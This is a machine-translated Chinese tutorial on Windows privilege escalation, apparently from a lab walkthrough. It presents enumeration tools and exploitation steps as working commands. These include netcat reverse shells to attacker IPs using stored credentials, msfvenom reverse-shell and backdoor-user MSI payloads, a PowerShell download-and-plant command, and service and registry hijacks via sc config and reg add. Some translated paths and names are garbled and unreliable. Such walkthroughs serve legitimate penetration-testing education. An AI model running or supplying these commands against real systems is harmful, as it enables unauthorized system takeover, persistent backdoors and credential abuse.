# Windows 中的权限提升

> 原文：<https://infosecwriteups.com/privilege-escalation-in-windows-380bee3a2842?source=collection_archive---------0----------------------->

## 条条大路通系统


权限提升一开始可能会令人望而生畏，但是一旦您知道要寻找什么和要忽略什么，它就会变得容易。权限提升总是归结于正确的枚举。本指南将主要关注常见的权限提升技术并利用它们。

本教程的起点是一个盒子上的非特权外壳。出于演示的目的，我使用`netcat`从 Windows 7 x86 虚拟机获得了一个反向 shell。

# 列举

我再怎么强调枚举的重要性也不为过。有很多小抄可以从系统中提取有价值的信息。在本指南中，我将重点介绍可用的脚本以及如何使用它们。一些流行的可用脚本有:

1.  卡洛斯·波洛普创作的《温豆豆》
2.  [通过 harmj0y 上电](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
3.  [沃森](https://github.com/rasta-mouse/Watson)由拉斯塔鼠
4.  [安全带](https://github.com/GhostPack/Seatbelt)
5.  [无能为力](https://github.com/M4ximuss/Powerless)
6.  [钳口](https://github.com/411Hall/JAWS)

以我的经验来看，winPEAS 和 PowerUp 是最有用的工具。PowerUp 是用 PowerShell 写的，winPEAS 是用 C#写的。你需要。NET Framework 4.0 来运行 winPEAS。还有一个. bat 版本的 winPEAS，如果。不存在网络支持。就我而言。默认情况下，Windows 7 上没有安装 NET 4.0，所以我必须安装它才能使用 winPEAS。为了安全起见，总是为枚举运行多个脚本。例如，winPEAS 检测到了弱注册表漏洞，但 PowerUp 没有检测到。

# 特权提升技术

## 存储的凭据

在注册表中搜索用户名和密码。


既然你已经找到了密码，你会用它做什么呢？如果 RDP 是可访问的，并且用户在`Remote Desktop Users`组中，那就太好了。否则，您可以使用下面的 PowerShell 脚本以该用户的身份运行命令。

```
$secpasswd = ConvertTo-SecureString "password321" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("john", $secpasswd)
$computer = "GHOST"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","192.168.0.114 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

如果`cmdkey /list`返回条目，这意味着你可以以某个用户的身份运行，这个用户在 windows 中存储了他的凭证。

```
runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"
```

## Windows 内核开发

如果操作系统定期更新，那么这些漏洞不会有太大的帮助。您可以使用 Watson 来检查由于缺少补丁而导致的漏洞。沃森已经和 winPEAS 整合了。如果你发现任何漏洞，你可以从下面的库下载。确保为您的目标下载正确的架构。如果你需要编译二进制文件，你可以使用 Kali 进行交叉编译。

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

## DLL 劫持

windows 程序在启动时会寻找 dll。如果这些 DLL 不存在，则有可能通过在应用程序寻找的位置放置恶意 DLL 来提升权限。

通常，Windows 应用程序会使用预定义的搜索路径来查找 DLL，并且会以特定的顺序检查这些路径。

1.应用程序加载的目录
2。32 位系统目录(C:\Windows\System32)
3。16 位系统目录(C:\Windows\System)
4。Windows 目录(C:\Windows)
5。当前工作目录(CWD)
6。PATH 环境变量中的目录(首先是系统，然后是用户)



如您所见，PowerUp 检测到了一个潜在的 DLL 劫持漏洞。通常我们是利用 PowerUp 的`Write-HijackDll`函数编写恶意 DLL，重启程序。当程序启动时，它加载恶意的 DLL 并以更高的权限执行我们的代码。

```
Write-HijackDll -DllPath 'C:\Temp\wlbsctrl.dll'
```

在这种情况下，快速的谷歌搜索揭示了可用于利用该漏洞的[https://github.com/itm4n/Ikeext-Privesc](https://github.com/itm4n/Ikeext-Privesc)。

但是，您可以手动执行此操作，以了解整个利用过程。可以参考我的帖子[这里](https://medium.com/@sghosh2402/ikeext-dll-hijacking-3aefe4dde7f5)。

## 未引用的服务路径

当服务启动时，Windows 将搜索要执行的二进制文件。要执行的二进制文件的位置在`binPath`属性中声明。如果二进制文件的路径没有加引号，则 Windows 不知道二进制文件的位置，并将在所有文件夹中搜索，从路径的开头开始。

因此，如果我们想利用这种错误配置，必须满足三个条件:

*   服务路径未加引号；
*   服务路径包含空格；和
*   我们在其中一个中间文件夹中拥有写权限。

如果`binPath`设置为

```
C:\Program Files\Unquoted Path Service\Common Files\service.exe
```

Windows 将按此顺序搜索:

1.  C:\Program.exe
2.  C:\Program Files\Unquoted.exe
3.  c:\ Program Files \未引用的 Path.exe
4.  c:\ Program Files \未加引号的路径服务\Common.exe
5.  c:\ Program Files \ un quoted Path Service \ Common Files \ Service . exe



通电检测到未引用的服务路径



winPEAS 检测到可写路径

用`msfvenom`创建一个有效载荷，并将其命名为 control.exe。将其放在`C:\Program Files\Unquoted Path Service\common.exe`目录中。

```
powershell -nop -exec bypass -c "(New-Object Net.WebClient).DownloadFile('[http://192.168.0.114:8080/common.exe'](http://192.168.0.114:8080/common.exe'), 'C:\Program Files\Unquoted Path Service\common.exe')"
```



通过使用`sc start unquotedsvc`启动服务来执行有效负载

## 弱文件夹权限

如果用户对服务使用的文件夹有写权限，他可以用恶意的二进制文件替换它。当服务重新启动时，恶意二进制文件将以更高的权限执行。



具有弱权限的服务二进制文件



通过将有效负载复制到服务二进制位置来替换文件。重新启动服务，以更高的权限执行有效负载。

```
copy /y C:\Users\user\Desktop\shell.exe "c:\Program Files\File Permissions Service\filepermservice.exe"sc start filepermsvc
```

## 弱服务权限

由具有弱权限的系统创建的服务可能会导致权限提升。如果低权限用户可以修改服务配置，例如将`binPath`更改为恶意二进制文件并重新启动服务，那么恶意二进制文件将以系统权限执行。

如果“认证用户”组在服务中有 **SERVICE_ALL_ACCESS** ，那么它可以修改服务正在执行的二进制文件。



```
msfvenom -p windows/shell_reverse_tcp LPORT=31337 LHOST=YOURIPHERE -f exe-service > shell.exe
```

当 Windows 调用启动服务时，它调用 ServiceMain 函数并期望从该调用中返回。如果你不指定 exe-service，生成的有效负载将不能给你一个持久的外壳。

使用修改配置，并启动服务以执行有效负载。

`sc config daclsvc binpath= "C:\Users\user\Desktop\shell.exe"`



## 弱注册表权限

在 Windows 中，服务有一个注册表项，这些注册表项位于:`HKLM\SYSTEM\CurrentControlSet\Services\<service_name>`

如果**认证用户**或**NT AUTHORITY \ INTERACTIVE**拥有任何服务的完全控制权，在这种情况下，您可以更改服务将要执行的二进制文件。



将注册表的`ImagePath`键修改为您的有效负载路径，并重新启动服务。

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\Temp\shell.exe /fsc start regsvc
```

## 始终安装高架

Windows 可以通过 AlwaysInstallElevated 组策略允许低权限用户使用系统权限安装 Microsoft Windows Installer 包(MSI)。



以`msi`格式生成`msfvenom` 有效载荷。



`msfvenom -p windows/adduser USER=backdoor PASS=Pass@1234 -f msi -o setup.msi`

使用以下工具安装有效负载

```
msiexec /quiet /qn /i C:\Windows\Temp\setup.msi
```



安装 MSI 后添加的后门用户

## 可修改的自动运行



因为可以修改自动运行的路径，所以我们用我们的有效负载替换这个文件。要以提升的权限执行它，我们需要等待管理组中的某个人登录。



管理员登录



管理员登录后立即执行有效负载。

## 马铃薯/烫手山芋🔥

烫手山芋(又名:土豆)利用 Windows 中的已知问题来获取默认配置中的本地权限提升，即 NTLM 中继(特别是 HTTP->SMB 中继)和 NBNS 欺骗

你可以在这里阅读更多关于这个漏洞的信息。

我们增加了很多用户。让我们用管理员权限删除其中一个。



管理组内部的后门用户

```
powershell -exec Bypass -c ". .\Tater.ps1;Invoke-Tater -Trigger 1 -Command 'net localgroup administrators backdoor /delete';"
```



漏洞利用完成后，后门用户被删除。

## 令牌操作

在渗透测试项目中，渗透测试人员经常设法危及 Apache、IIS、SQL、MySQL 等服务的安全。遗憾的是，此服务不是作为本地系统或高特权帐户运行，而是作为网络服务运行。您可以利用以下漏洞提升权限。

1.  [烂土豆](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
2.  [多汁的土豆](https://github.com/ohpe/juicy-potato/releases)

## 懒人赋😜

```
meterpreter> getsystem
```

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)